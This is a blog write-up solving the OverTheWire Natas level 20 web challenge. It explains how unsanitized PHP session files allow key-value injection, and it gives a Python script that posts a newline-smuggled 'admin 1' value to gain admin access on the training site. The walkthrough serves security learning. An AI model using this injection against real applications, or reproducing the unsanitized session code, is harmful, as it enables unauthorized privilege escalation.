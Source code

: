 ```yaml
---
layout: post
title:  "Natas Level 19 → Level 20"
date:   2021-05-29 21:34:21
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Write to own
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
This level starts with us logged in. We have a form that is intended to let us change out name and a link to the source code. The source for this level is too long. I'll highlight the the more important sections. 

Additionally, due to the way this level was put together, I'll be testing the code from Python instead of the Developer Tools. This is due to the level requiring use of the provided debug via GET, and the submission of data via POST. All results are printed via Debug which is not rendered to the webpage, but to the Request tab under the Network tab. To pass this level, multiple loads of the page are required. Not only is this too much hassle, but the testing via Python will result in us getting the password and as a final script.

Let's look at a few sections of the code.

Below we see what is needed for the application to consider us an admin.
- A session id must exist
- One of the keys to be "admin"
- The admin key must be set to "1"

```php
function print_credentials() { 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        ...
```

The myread function checks to see if we have a save session file, if we don't it creates one. It then reads the contents of that file. It uses spaces as delimiters and takes two entries at a time. These are then read in as a key/value. There is no sanitization.

```php
function myread($sid) { 
    ...
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        ...
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    ...
```

The mywrite function reads the save session file. It takes the values in $_SESSION and stores them two-at-a-time with a space delimiter, and ends with a newline. There is no sanitization.

```php
function mywrite($sid, $data) { 
    ...
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    ...
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
```

Looking over the list of what we need to do to become admin, we only need to exploit mywrite to create the key-value pair. The session id was created for us automatically when we first entered the site. The only way to see the password for the next level is to trigger the myread function while using debug. Let's create the script.


```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'e------------------------------F'
session = requests.Session()
auth = HTTPBasicAuth('natas20', password)
url = 'http://natas20.natas.labs.overthewire.org/index.php?debug'


def write_kvpair(key, value):
    resp = session.post(url=url, data={key: value}, auth=auth)
    print(resp.text)


def load_page():
    resp = session.get(url=url, auth=auth)
    print(resp.text)



write_kvpair("name", "foo\nadmin 1")
load_page()
```

